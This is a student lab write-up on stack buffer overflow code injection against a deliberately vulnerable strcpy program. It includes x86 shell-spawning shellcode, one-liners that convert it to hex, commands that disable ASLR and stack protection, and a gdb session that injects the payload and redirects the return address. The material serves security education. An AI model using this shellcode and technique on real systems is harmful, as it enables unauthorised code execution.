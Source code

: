 # Code injection using Buffer Overflow

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[64];
    if (argc == 1)
        printf("missing argument\n");
    else
        strcpy(buf, argv[1]);
    printf("buf: 0x%x\n", (unsigned int)buf);
    return 0;
}
```

Target: Inject a snippet of code into the program. In this lab, we will inject a snippet of assembly code to spawn a new shell.

## 1. Write shellcode

### 1.1. Write shellcode

We will write a program in assembly language. This program will spawn a new shell `/bin/sh`. The program is saved as `sh.asm`.

```assembly
section .text
global  _start
_start:
    xor     eax,eax
    push    eax
    push    "//sh"
    push    "/bin"
    mov     ebx,esp
    push    eax
    push    ebx
    mov     ecx,esp
    xor     edx,edx
    xor     eax,eax
    mov     al,0x0B
    int     0x80
```

**Compile the program**

To compile the program, run the following script:

```bash
nasm -g -f elf sh.asm
```

A new file `sh.o` is created.

And to link the the code to create executable file:

```bash
ld sh.o -o sh
```

**Result**

![newfiles](../img/code_injection/newfile.png)

A new file `sh` is created.

---

### 1.2. Generate hex string

To inject the above assembly code snippet, we need to generate the hex values so that we can use those values as input.

**Print string onto terminal**

Run the following script to generate the hex string of shellcode and print it onto terminal.

```bash
for i in $(objdump -d sh |grep "^ "|cut -f2); do echo -n '\x'$i; done; echo
```

Result:
![hexstring](../img/code_injection/hexstring.png)

For later use, I will save the string into a txt file `hex.txt`.

![hex.txt](../img/code_injection/hex.txt.png)

**Generate binary file**

Another method is to created a binary file of shellcode if injecting by reading the file

```bash
for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;
```

Result

<p style="text-align: center;">
    <img src="../img/code_injection/newbin.png" style="display: inline;" />
    <img src="../img/code_injection/shbin.png" style="display: inline;" />
</p>

---

### 1.3. Calculations

We need to estimate the size of vulnerable program with input strings of various length.

First, the program must be compiled with option `-fno-stack-protector` to disable the stack protector. Also, we need to allow the program to execute code on stack with option `-z execstack`.

```bash
gcc vuln.c -o vuln.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

Secondly, estimate the buffer size of the program. Notice that there is a char variable named `buf` with the size of 64 bytes. The following picture represent the stack frame of the `main()` function of the vulnerable program.

<p style="text-align: center;">
    <img src="../img/code_injection/stackframe.png" />
</p>

We can easily see that from `esp` to `eip`, there are 72 bytes, with 64 bytes of `buf`, 4 bytes of `ebp`, and 4 bytes of `eip`.

Remember the hex string we generated from the previous shellcode? Now we need to count how many bytes there are. A trick to do it fast is using `Ctrl + F` to find `x`.

![findx](../img/code_injection/findx.png)

The program is 27 bytes long. When we inject the hex string of the program into the stack, it only takes 27 bytes over 64 bytes of `buf`. To execute the shellcode through a buffer overflow, we need to overwrite the return address on the stack so that, instead of returning to the original caller (or exit), the program jumps to the location in memory where the shellcode is stored—in this case, the `esp` (stack pointer).

In short, the input should be 72 bytes long, with the first 27 bytes is the hex values of shellcode, the next 41 bytes padding characters, and the last 4 bytes is the address of `esp`.

## 2. Preparing for the attack

We first need to turn off OS's address space playout randomization by

```bash
sudo sysctl -w kernel.randomize_va_space=0
# password for seed is "dees"
```

![sysctl](../img/code_injection/systcl.png)

Then create a link to `zsh` instead of default dash to turn off bash countermeasures of Ubuntu 16.04:

```bash
sudo ln -sf /bin/zsh /bin/sh
```

![ln](../img/code_injection/ln.png)

## 3. Attack

First, load `vuln.o` in `gdb`, then disassemble the `main()` function

```bash
gdb -q vuln.o
```

```bash
gdb-peda$ disas main
```

![gdb-disas](../img/code_injection/gdb_disas.png)

To get the address of `esp` and replace it for the return address, we need to set a break points after `strcpy` (address `0x08048468`):

```bash
gdb-peda$ b *0x08048468
```

![break](../img/code_injection/break.png)

Run the program with the [pre-calculated](#13-calculations) input (here I use `ff ff ff ff` to fill in the return address, so that I will know which address is `eip` to replace), and it will stop at the break point:

```bash
gdb-peda$ r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + '\x10'*41 + '\xff\xff\xff\xff')")
```

**Explain**

-   `'\x31\xc0\x50...\x0b\xcd\x80'`: The hex string of shellcode we [generated](#12-generate-hex-string).
-   `'\x10'*41`: 41 padding characters.
-   `'\xff\xff\xff\xff'`: 4 easily recognized characters so that we know which part is the `eip`.

![run](../img/code_injection/run.png)

Then, we will watch the stack from `esp`:

```bash
gdb-pada$ x/80xb $esp
```

![stack from esp](../img/code_injection/stack_esp.png)

The <span style="color: red;">red</span> part is the <span style="color: red;">shellcode</span> that we want to inject.

The <span style="color: green;">green</span> part is the <span style="color: green;">41 bytes padding characters</span>.

The <span style="color: dodgerblue;">blue</span> part contains 4 `\xff` characters, which is our target to modify, the `eip`.

From the memory shown, the first `\xff` is at address `0xffffd69c`, which also is the address `eip`. We are going to change the value of the 4 `\xff` to the address of `esp`, which is the start of the <span style="color: red;">red</span> part (`0xffffd658`):

```bash
gdb-peda$ set *0xffffd69c = 0xffffd658
```

Check the stack again, make sure the last 4 values is now `0x58 0xd6 0xff 0xff`:

```bash
gdb-pada$ x/80xb $esp
```

![set](../img/code_injection/set.png)

Continue executing program, we should now be in the new bash shell:
![newShell](../img/code_injection/newShell.png)

We can new test if it works by using a simple `ls` command:
![testResult](../img/code_injection/testResult.png)

It does work, but immediatly exit gdb and got a warning

<span style="color: yellow; font-family: monospace">Warning: not running</span>

and then the program stopped.

Here I tried using `ls` many times, but I still got "kicked out".

![result](../img/code_injection/result.png)
